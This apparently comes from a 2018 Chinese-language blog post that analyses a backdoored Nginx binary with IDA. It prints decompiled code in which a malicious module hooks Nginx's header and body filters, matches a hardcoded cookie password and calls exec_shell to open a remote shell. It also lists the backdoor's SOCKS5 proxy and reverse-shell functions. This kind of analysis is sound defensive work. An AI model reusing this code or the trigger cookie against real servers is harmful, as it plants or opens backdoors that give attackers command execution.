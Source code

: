 ```yaml
---
title: "Nginx Backdoor Analysis"
date: 2018-10-19
draft: false
tags: ["Linux"]
---
```


# 0) Infected Nginx

使用IDA分析后，发现Nginx被嵌入了一个名为 `ngx_http_pwd_init`的lua模块

```c
ngx_int_t __fastcall ngx_http_pwd_init(ngx_conf_t *cf_0)
{
  ngx_http_next_header_filter_11 = ngx_http_top_header_filter;
  ngx_http_top_header_filter = ngx_http_pwd_header_filter;
  ngx_http_next_body_filter_10 = ngx_http_top_body_filter;
  ngx_http_top_body_filter = ngx_http_pwd_body_filter;
  return 0LL;
}

```

后门主要功能代码在 `ngx_http_pwd_header_filter` 函数中，该函数可以用来拦截所有的Nginx访问请求头，并对Request中的Cookie信息来验证后门连接密码，以及要执行的功能。

经分析发现该后门主要有3种功能：

- 1.Shell Execute
- 2.Socks5 Proxy
- 3.Reverse Shell


# 1) Shell Execute

下面截取了一部分的代码，可以发现，通过匹配Cookie中的`worderx`字段来验证连接后门的密码，`typefp`字段作为功能的编号，1号是命令执行，最后调用`exec_shell(cmd_fd)`来返回一个简单的交互式Shell

```c

if ( request->headers_in.cookies.nelts == 1 )
  {
    v5 = *(_BYTE **)(*(_QWORD *)request->headers_in.cookies.elts + 0x20LL);
    v6 = *(_BYTE **)(*(_QWORD *)request->headers_in.cookies.elts + 0x20LL);
    v7 = "worderx=Bo9vrZ6TKBmq; typefp=1"; 	// Match the password, and
    v8 = 30LL;
    do
    {
      if ( !v8 )
        break;
      v3 = *v6 < (const unsigned __int8)*v7;
      v4 = *v6++ == *v7++;
      --v8;
    }
    while ( v4 );
    v9 = !v3 && !v4;
    v10 = v3;
    v11 = v9 < (unsigned __int8)v3;
    v12 = v9 == v10;
    if ( v9 == v10 )
    {
      msend(cmd_fd, "worderx1", 9);
      exec_shell(cmd_fd);
```